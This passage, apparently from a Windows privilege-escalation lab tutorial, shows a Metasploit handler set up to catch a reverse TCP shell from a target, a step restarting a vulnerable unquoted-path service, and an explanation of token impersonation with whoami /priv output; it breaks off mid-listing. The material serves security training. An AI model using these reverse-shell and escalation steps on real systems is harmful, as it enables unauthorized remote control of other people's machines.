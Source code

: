 msfconsole

           `msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 8899
lport => 8899
msf6 exploit(multi/handler) > set lhost 10.9.6.195
lhost => 10.9.6.195
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.195:8899`
        

Once you have generated and moved the file to the correct location on the target machine, you will need to restart the vulnerable service.

You can use the `sc start unquotedsvc` command to start the service.

## Token Impersonation
Service accounts, briefly mentioned in the introduction task, may have a higher privilege level than the low-level user you may have. In Windows versions before Server 2019 and 10 (version 1809), these service accounts are affected by an internal man-in-the-middle vulnerability. As you may know, man-in-the-middle (MitM) attacks are conducted by intercepting network traffic. In a similar fashion, higher privileged service accounts will be forced to authenticate to a local port we listen on. Once the service account attempts to authenticate, this request is modified to negotiate a security token for the "NT AUTHORITY\SYSTEM" account. The security token obtained can be used by the user we have in a process called "impersonation". Although it has led to several exploits, the impersonation rights were not a vulnerability.  
  
In Windows versions after Server 2019 and Windows 10 (version 1809), impersonation rights were restricted. You can see below that a regular user does not have the "SeImpersonatePrivilege" privilege.

Regular User "whoami /priv" Output

           `C:\Users\user>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\Users\user>`

Admin User "whoami /priv" Output

           `C:\Users\admin>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled